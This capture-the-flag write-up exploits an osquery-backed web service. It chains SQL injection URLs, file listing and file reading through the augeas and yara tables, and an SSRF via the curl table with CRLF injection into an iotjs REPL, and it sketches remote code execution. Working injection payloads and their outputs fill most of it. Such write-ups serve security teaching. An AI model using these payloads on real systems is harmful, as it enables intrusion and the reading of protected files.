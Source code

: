 ## QQQueryyy_all_the_things
### SQL injection
```
http://8.218.140.54:12321/?str=world%27;select%20123;--
  -> SELECT 'world';select 123;--' as hello;
```
### Identify osquery
```
// ref: https://www.sqlite.org/schematab.html

http://8.218.140.54:12321/?str=world%27;select%20*%20from%20sqlite_temp_master;--
  -> select * from sqlite_temp_master;
```
Search these strange tables on google (eg. azure_instance_tags).
You will get `https://github.com/osquery/osquery/blob/master/specs/azure_instance_tags.table`.

### List directories
```
// ref: https://osquery.io/schema/5.0.1/

http://8.218.140.54:12321/?str=world%27;select%20*%20from%20file%20where%20directory=%22/%22;--
  -> select * from file where directory="/";
```
You will get `/flag` (0500; "u/gid":"0") and `/readflag` (4555; "u/gid":"0").
So we do not have permission to read `/flag`, we need a RCE!

### List services
```
// ref: https://osquery.io/schema/5.0.1/

http://8.218.140.54:12321/?str=world%27;select%20*%20from%20listening_ports;--
 -> select * from listening_ports;
```
We get `{"address":"0.0.0.0","family":"2","fd":"-1","net_namespace":"0","path":"","pid":"-1","port":"16324","protocol":"6","socket":"10554002"}`

```
http://8.218.140.54:12321/?str=world%27;select%20*%20from%20processes;--
 -> select * from processes; 
```
We get `{"cmdline":"/usr/sbin/xinetd -pidfile /run/xinetd.pid -stayalive -inetd_compat - ...`

```
http://8.218.140.54:12321/?str=world%27;select%20*%20from%20file%20where%20directory=%22/etc/xinetd.d/%22;--
 -> select * from file where directory="/etc/xinetd.d/";
```
We get `"directory":"/etc/xinetd.d/","filename":"ctf","gid":"0"`

### Read files
You could read config files directly.
```
http://8.218.140.54:12321/?str=world%27;select%20*%20from%20augeas%20where%20path=%22/etc/xinetd.d/ctf%22;--
  -> select * from augeas where path="/etc/xinetd.d/ctf";
```
You could use yara rules to leak arbitrary file contents.
```
select * from yara where path = '/etc/xinetd.d/ctf' and sigrule = 'rule rua { condition: uint8(1) < 0x70 }'
```
Anyway, you could get `/src/iotjs/build/x86_64-linux/debug/bin/iotjs /src/iotjs/tools/repl.js`.

https://github.com/jerryscript-project/iotjs

### Exploit iotjs
iotjs is started on port 16324.
You could get RCE through NAPI, write evil modules to /tmp/ and load it `require(xxx)`,
@SupperGuesser write "/proc/self/mem" to change the plt to get shell.

### SSRF
```
// ref: https://osquery.io/schema/5.0.1/
  -> select * from curl where url="http://127.0.0.1:16324/" and user_agent="\n\n\n\n\n\n\n\n\n\n\n{evil_js_code}\n\n\n\n\n\n\n\n\n\n\n";
```
Now, we could have a chance to interact with `port 16234(iotjs)`, however, we need to bypass this https://github.com/jerryscript-project/iotjs/blob/master/tools/repl.js#L39 trough crlf injection `"\n"*10` in user_agent.





